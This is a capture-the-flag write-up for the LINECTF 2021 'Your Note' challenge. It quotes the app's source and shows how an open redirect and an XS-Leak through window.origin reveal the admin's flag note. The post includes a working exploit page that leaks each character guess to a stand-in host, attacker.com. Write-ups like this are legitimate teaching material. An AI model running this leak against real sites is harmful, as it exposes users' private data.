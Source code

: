 ```yaml
---
layout: post
title:  "Your Note"
tags: ctf
author: f02a8dfe
---
```

Secure private note service
※ Admin have disabled some security feature of their browser...Flag Format: LINECTF{[a-z0-9-]+}
LINECTF, 20th March 2021

The author provided a link to a note taking site and a docker zip.

The source code of `app.py` revealed the flag was added to the admin account notes:

{% highlight python %}
admin_note = Note(
    title='flag',
    content=app.config.get('FLAG'),
    owner=admin
)
db.session.add(admin_note)
db.session.commit()
{% endhighlight %}

`/login` included a `redirect` parameter which was appended to the `BASE_URL` allowing arbitrary redirects:

{% highlight python %}
@app.route('/login', methods=['GET', 'POST'])
def login():
    url = request.args.get('redirect')
    if url:
        url = app.config.get('BASE_URL') + url
        if current_user.is_authenticated:
            return redirect(url)
{% endhighlight %}

the `search` function `download` parameter allowed results to be downloaded:

{% highlight python %}
@app.route('/search')
@login_required
def search():
    q = request.args.get('q')
    download = request.args.get('download') is not None
    if q:
        notes = Note.query.filter_by(owner=current_user).filter(or_(Note.title.like(f'%{q}%'), Note.content.like(f'%{q}%'))).all()
        if notes and download:
            return Response(json.dumps(NoteSchema(many=True).dump(notes)), headers={'Content-disposition': 'attachment;filename=result.json'})
    else:
        return redirect(url_for('index'))
    return render_template('index.html', notes=notes, is_search=True)
{% endhighlight %}

and the `report` function submitted a GET request to `CRAWLER_URL`:

{% highlight python %}
@app.route('/report', methods=['GET', 'POST'])
@login_required
def report():
    if request.method == 'POST':
        url = request.form.get('url')
        proof = request.form.get('proof')
        if url and proof:
            res = requests.get(
                app.config.get('CRAWLER_URL'),
                params={
                    'url': url,
                    'proof': proof,
                    'prefix': session.pop('pow_prefix')
                }
            )
{% endhighlight %}

crawler.js received the request, logged in as admin then visited the specified URL with a headless browser:

{% highlight js %}
const username = 'admin';
const password = process.env.ADMIN_PASSWORD || 'password';

    const url = req.query.url;
    if (url && url.startsWith(base_url + '/') &&
        proof && prefix && verify(proof, prefix)) {
        const browser = await puppeteer.launch({
            args: [
                '--no-sandbox',
                '--disable-popup-blocking',
            ],
            headless: true,
        });
        const page = await browser.newPage();

        // login
        await page.goto(base_url + '/login');
        await page.type('input[name=username]', username);
        await page.type('input[name=password]', password);
        await Promise.all([
            page.waitForNavigation({
                waitUntil: 'domcontentloaded',
                timeout: 10000,
            }),
            page.click('button[type=submit]'),
        ]);

        // crawl
        page.goto(url).then(() => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send({msg: 'Thank you for the report!'});
        }).catch((err) => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send({msg: 'ng'});
        });
        setTimeout(() => {
            browser.close()
        }, 60 * 1000)
        return
    }
{% endhighlight %}

the browser disabled popup blocking  and was closed after 60 seconds.

By reporting a crafted link:

`http://line.ctf/login?redirect=@attacker.com/script.htm`

it was possible to redirect it to a malicious page:

{% highlight html %}
<script>
function sleep(ms) {
  return new Promise(resolve => setTimeout(resolve, ms));
}

async function search(candidates,url,host) {
  finished = false;
  while (!finished) {
	  for (i=0;i<candidates.length;i++) {
		win = window.open(url + '/search?q=' + flag + candidates[i] + '&download');
		await sleep(200);
		try {
			win.origin;
			// if win.origin does not trigger an error no page was opened, must be a download
			window.open(host + '/' + i + '/y/' + flag + candidates[i]);
			flag = flag + candidates[i];
			if (candidates[i] == '}') {
				finished = true;
			}
			break;
		} catch(e) {
			// if navigation occured an error is triggered because window is cross-origin
			window.open(host + '/' + i + '/n/' + flag + candidates[i]); 
		}
		//await sleep(200);  	
	  }
  }
}

url="http://line.ctf";
host="http://attacker.com";

candidates = "}0123456789-abcdefghijklmnopqrstuvwxyz".split("");
flag = 'LINECTF{';

search(candidates,url,host);
</script>
{% endhighlight %}

The script takes advantage of `--disable-popup-blocking` to request a download of the search results. If the search string was found a download was triggered. If not the site returned an empty search results page. 

It's possible to determine whether a download was started by checking the value of `window.origin`, as described by [XS Leaks Wiki][xsleaks]. If no error is triggered no page was loaded because no origin was set. 

The script leverages this difference to brute force the content of the flag note. It sends incorrect guesses to `host/i/n/*` and correct guesses to `host/i/y/*`.

The flag was recovered by generating several requests to the script while watching the web server logs and updating the flag string. 

[xsleaks]: https://xsleaks.com/docs/attacks/navigations/


